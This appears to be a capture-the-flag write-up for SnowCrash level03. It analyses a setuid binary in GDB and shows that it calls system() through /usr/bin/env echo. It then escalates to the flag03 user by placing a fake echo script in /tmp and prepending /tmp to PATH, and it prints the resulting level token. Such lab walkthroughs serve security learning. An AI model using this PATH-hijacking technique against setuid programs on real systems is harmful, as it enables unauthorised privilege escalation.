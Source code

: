 # level03

- We login as user level03.
```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03

level03@SnowCrash:~$ ./level03
Exploit me
```


- A binary has been left for us; it belongs to user flag03 and the group level03. Additionally, [the setuid and setgid permission bits](https://en.wikipedia.org/wiki/Setuid) are set.
Thus, this binary is executed with the privileges of user flag03 and the group level03.
Let's take a closer look at this binary using [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
gdb ./level03
...
(gdb) info functions
All defined functions:

File /home/user/level03/level03.c:
int main(int, char **, char **);

Non-debugging symbols:
0x08048340  _init
...
```
```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     and    $0xfffffff0,%esp
   0x080484aa <+6>:     sub    $0x20,%esp
   0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    %eax,0x18(%esp)
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    %eax,0x1c(%esp)
   0x080484bf <+27>:    mov    0x18(%esp),%eax
   0x080484c3 <+31>:    mov    %eax,0x8(%esp)
   0x080484c7 <+35>:    mov    0x18(%esp),%eax
   0x080484cb <+39>:    mov    %eax,0x4(%esp)
   0x080484cf <+43>:    mov    0x18(%esp),%eax
   0x080484d3 <+47>:    mov    %eax,(%esp)
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:    mov    0x1c(%esp),%eax
   0x080484df <+59>:    mov    %eax,0x8(%esp)
   0x080484e3 <+63>:    mov    0x1c(%esp),%eax
   0x080484e7 <+67>:    mov    %eax,0x4(%esp)
   0x080484eb <+71>:    mov    0x1c(%esp),%eax
   0x080484ef <+75>:    mov    %eax,(%esp)
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave
   0x08048504 <+96>:    ret
End of assembler dump.
```


- It can be seen that the program makes a call to `<system@plt>` right after moving the address `0x80485e0` to the top of [the stack](https://en.wikipedia.org/wiki/Stack_(abstract_data_type)).
Let's display the value contained at this address.
```
(gdb) x/s 0x80485e0
0x80485e0:       "/usr/bin/env echo Exploit me"
```


- So, the program calls `system("/usr/bin/env echo Exploit me")`.
In bash, `echo` is a built-in command, but with the preceding `/usr/bin/env`, the program will use the `PATH` environment variable to search for the echo binary.
```
level03@SnowCrash:~$ echo "getflag" > /tmp/echo
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ export PATH=/tmp:$PATH

level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

level03@SnowCrash:~$ su level04
Password:qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$
```